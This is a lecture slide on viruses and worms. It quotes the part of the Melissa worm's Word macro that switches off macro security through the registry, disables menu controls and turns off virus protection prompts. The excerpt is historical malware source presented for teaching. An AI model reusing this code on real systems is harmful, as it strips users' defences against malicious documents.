

# Melissa Worm
Disables the macro security features
If System.PrivateProfileString("", "HKEY_CURRENT_USER
\Software\Microsoft\Office\9.0\Word\Security", "Level") <> "" Then
    CommandBars("Macro").Controls("Security...").Enabled = False
    System.PrivateProfileString("", "HKEY_CURRENT_USER
   \Software\Microsoft\Office\9.0\Word\Security", "Level") = 1&
Else
   p$ = "clone"
   CommandBars("Tools").Controls("Macro").Enabled = False
   Options.ConfirmConversions = (1 - 1): Options.VirusProtection = (1 - 1):
   Options.SaveNormalPrompt = (1 - 1)
End If
Mateti, Viruses, Trojans and Worms
24